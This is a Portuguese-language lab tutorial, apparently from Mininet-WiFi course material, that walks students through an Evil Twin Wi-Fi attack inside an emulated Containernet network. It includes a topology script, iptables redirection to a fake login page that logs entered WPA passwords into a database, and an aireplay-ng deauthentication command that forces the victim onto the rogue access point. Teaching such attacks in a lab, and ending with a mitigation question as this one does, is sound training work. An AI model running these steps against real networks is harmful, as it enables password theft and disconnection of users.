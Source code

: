 ************
Evil Twin Attack
************


Hackeando a senha WPA2 usando Evil Twin Attack | DNSMASQ e Hostapd
-------------

.. image:: https://github.com/ramonfontes/sphinx_rtd_theme/blob/master/docs/imgs/evil-twin.png?raw=true

.. Note::
  **Neste documento você irá compreender como realizar o ataque denominado de  Evil Twin Attack**
  
  **Requisitos:** 
  
  - Containernet - https://github.com/ramonfontes/containernet
  - Hostapd

  **A VM disponível em https://github.com/intrig-unicamp/mininet-wifi deverá possuir todos os recursos necessários para reproduzir este documento. Caso alguma dependência esteja faltando ela terá de ser resolvida**

Antes de tudo você precisa identificar a topologia de rede que será gerada através do código abaixo:

.. code:: python

 #!/usr/bin/python

 '''@author: Ramon Fontes
    @email: ramon.fontes@imd.ufrn.br'''

 from containernet.net import Containernet
 from containernet.node import DockerSta
 from mininet.log import setLogLevel, info
 from containernet.cli import CLI
 from containernet.term import makeTerm


 def topology():
     "Create a network."
     net = Containernet()

     info("*** Creating nodes\n")
     sta1 = net.addStation('sta1', ip='192.168.190.2/24')
     sta2 = net.addStation('sta2', ip='192.168.190.3/24')
     ap1 = net.addAccessPoint('ap1', ssid="simplewifi", mode="g", channel="1",
                              failMode="standalone", datapath='user')
     ap2 = net.addStation('ap2', cls=DockerSta, dimage="ramonfontes/rogue-ap", cpu_shares=20)

     info("*** Configuring wifi nodes\n")
     net.configureWifiNodes()

     info("*** Starting network\n")
     net.build()
     ap1.start([])

     ap2.setMasterMode(intf='ap2-wlan0', ssid='simplewifi', channel='1', mode='g')
     #ap2.cmd('pkill -f \"ap2-wlan0.apconf\"')
     ap2.cmd('ifconfig ap2-wlan0 up 192.168.190.1 netmask 255.255.255.0')

     sta2.cmd('route add default gw 192.168.190.1')
     sta2.cmd('iw dev sta1-wlan0 interface add mon0 type monitor')
     sta1.cmd('iwconfig sta1-wlan0 essid simplewifi ap 02:00:00:00:03:00')

     info("*** Running CLI\n")
     CLI(net)

     info("*** Stopping network\n")
     net.stop()


 if __name__ == '__main__':
     setLogLevel('info')
     topology()
```

Considerando que o código acima tenha sido salvo em um arquivo com nome `evil-twin-attack.py`, execute-o conforme abaixo:

.. code:: console

    sudo python evil-twin-attack.py
    
De acordo com a topologia acima, `sta1` deverá estar conectado ao ponto de acesso `ap1`. Voce pode confirmar esta afirmação utilizando o comando abaixo:

.. code:: console

    sta1 iw dev sta1-wlan0 link
    Connected to 02:00:00:00:03:00 (on sta1-wlan0)
          SSID: simplewifi
          freq: 2412
          RX: 62468 bytes (1373 packets)
          TX: 144 bytes (4 packets)
          signal: -36 dBm
          tx bitrate: 1.0 MBit/s

          bss flags:	short-slot-time
          dtim period:	2
          beacon int:	100
    
Na topologia do código acima, `sta1` será a vítima e `sta2` o atacante. Além disso, o ponto de acesso `ap1` será o ponto de acesso real e o ataque será feito através do ponto de acesso `ap2`.


.. admonition:: Passo a ser realizado
 
   - Neste momento, você deverá configurar ap2 de forma que ele permita o encaminhamento de dados entre a sua interface sem fio e sua interface com fio, de forma que a vítima possa ter acesso à Internet.
   - Execute também o hostapd em `ap2` para que a vítima possa receber sinal do ponto de acesso falso.
   
Neste momento, `ap2` deverá estar acessível à `sta1`, conforme pode ser observado abaixo:

.. code:: console

    sta1 iw dev sta1-wlan0 scan | grep SSID
    
    SSID: simplewifi
    SSID: simplewifi

A saída acima comprova que existem dois pontos de acesso divulgando o mesmo SSID.


Neste momento, você que é `sta2`, deverá conectar-se ao ponto de acesso `ap2` - o seu AP falso - e testar a conectividade com a Internet. Portanto, ao conectar-se, a saída esperada é a que se encontra abaixo:

.. code:: console

    containernet> sta2 ping -c1 8.8.8.8
    PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
    64 bytes from 8.8.8.8: icmp_seq=1 ttl=117 time=1100 ms

    --- 8.8.8.8 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 1100.253/1100.253/1100.253/0.000 ms

.. admonition:: Passo a ser realizado

   - Agora, você deverá configurar `ap2` de forma que todo tráfego tendo como porta de origem 80 seja redirecionado para 192.168.190.1 também na porta 80. Dica: você pode ter que utilizar o `iptables`.
   - Como o `ap2` já vem pré-configurado com os recursos de software necessários para a execução do ataque, inicie os serviços `apache2` e `mysql`.
   - Defina o endereço de DNS de `sta2` para 8.8.8.8.
 
Então, ao tentar acessar o endereço http://www.google.com:80 ou qualquer outro site na porta 80 a partir de `sta2`, você deverá obter como resultado algo similar à figura apresentada abaixo:

.. image:: https://github.com/ramonfontes/sphinx_rtd_theme/blob/master/docs/imgs/evil-twin-screenshot.png?raw=true

Em um ambiente bem configurado, não seria necessário definir a porta 80. Qualquer site seria redirecionado para a página apresentada acima. Mesmo que fosse uma página em HTTPs. Aqui, certifique-se, pelo menos, que o arquivo em `ap2` localizado em `/var/www/html/dbconnect.php` possua o valor definido para a variável $host o mesmo IP da porta `eth0` de `ap2`. Caso contrário, você deverá ter que realizar modificações para que o servidor mysql funcione corretamente.

.. hint::

    - Usuário do banco de dados: rogueuser
    - Senha do usuário rogueuser: roguepassword
    - Nome do banco de dados: rogueap

Com todos os passos realizados com sucesso, você agora tem um ambiente pronto. Isso signfica que ao preencher alguma informação nos campos de usuário e senha da página acessada acima e submeter o formulário, as informações serão salvas no banco de dados `rogueap`.

Você pode confirmar a obtenção das informações através de uma consulta na tabela `wpa_keys`, conforme abaixo:

.. admonition:: Passo a ser realizado

     mysql> select * from wpa_keys;
     
     +-----------+-----------+   
     | password1 | password2 |   
     +-----------+-----------+   
     | teste     | teste     |   
     +-----------+-----------+  
     1 row in set (0.00 sec)   

Agora, só nos basta executar o comando abaixo para forçar a desassociação de `sta1` em relação ao `ap1`.

.. code:: console

   aireplay-ng -00 -a 02:00:00:00:03:00 mon0 --ignore-negative-one
   
Você poderá confirmar através do comando abaixo que `sta1` agora está associado ao `ap2`.


.. code:: console
     containernet> sta1 iw dev sta1-wlan0 link
     Connected to 02:00:00:00:02:00 (on sta1-wlan0)
      SSID: simplewifi
      freq: 2412
      RX: 2816701 bytes (62595 packets)
      TX: 2544 bytes (104 packets)
      signal: -36 dBm
      tx bitrate: 1.0 MBit/s

      bss flags:	short-slot-time
      dtim period:	2
      beacon int:	100


Qualquer acesso realiado por `sta1` agora será redirecionado para o `ap2`.
 

.. admonition:: Perguntas

    -Q1. Como este ataque pode ser mitigado?
